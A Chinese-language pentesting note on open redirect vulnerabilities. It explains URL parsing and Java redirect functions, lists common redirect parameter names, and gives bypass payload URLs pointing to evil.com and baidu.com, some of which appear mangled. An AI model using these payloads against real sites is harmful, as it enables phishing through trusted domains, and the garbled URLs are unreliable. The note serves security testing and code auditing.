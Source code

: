 ## **url恶意重定向**
1、场景
```
请求转发是将url加载主域名后面，并且內部无感转发，基本不可控。
dispatcher.forward(request, response);


重定向就可以自定义。
有重定向的输入口，一般也有反射型xss。
```

2、浏览器解析URL的格式
```
scheme://userinfo@host:port/path?query#fragment

Scheme:协议
userinfo: 认证信息
Host: 实际访问的域名
Path：访问路径
?参数和锚链接
```

 

如下面网址，实际访问的是www.eval.com
http://www.baidu.com.com[@www.eval.com/tou

在业务场景中，在实际浏览器解析访问时中反斜线 \ 会被纠正为正斜线 /。也就是说类似
www.baidu.com\asd 浏览器会自动纠正为：www.baidu.com/asd 

^
3、常见代码函数
```
springmvc的重定向：
redirect
重定向
url = "redirect:" + url;
return new ModelAndView(url)


servet的原生重定向：
sendRedirect()

setStatus(302)
```


## url常见跳转参数：
redirect
domain
link
to
target
targets
jump
jump_to
redirect_url

## nuclei中的绕过技巧：
http://xxx.xxx.xxx/%0a/baidu.com
http://xxx.xxx.xxx/%5C%5Cbaidu.com/%252e%252e%252f

## 其它url跳转绕过技巧：
http://xxx.xxx.xxx/redirect.php?url=/www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=//www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=///www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com\www.evil.com
http://xxx.xxx.xxx/redirect.php?url=http://www.baidu.com
http://xxx.xxx.xxx/redirect.php?url=.evil.com(可能会跳到evil.com)
http://xxx.xxx.xxx/redirect.php?url=.evil(可能会跳到www.evil.com.evil)
### 期望跳转到www.baidu.com
http://www.test.com[@www.baidu.com/tou

可绕过众多防御
http://@www.realsee.com[@www.baidu.com/tou

http://baidu.com\test.com

## 绕过URL跳转
https://www.cnblogs.com/-meditation-/articles/16243218.html

## java代码审计漏洞-URL跳转
https://www.cnblogs.com/-meditation-/articles/16243853.html


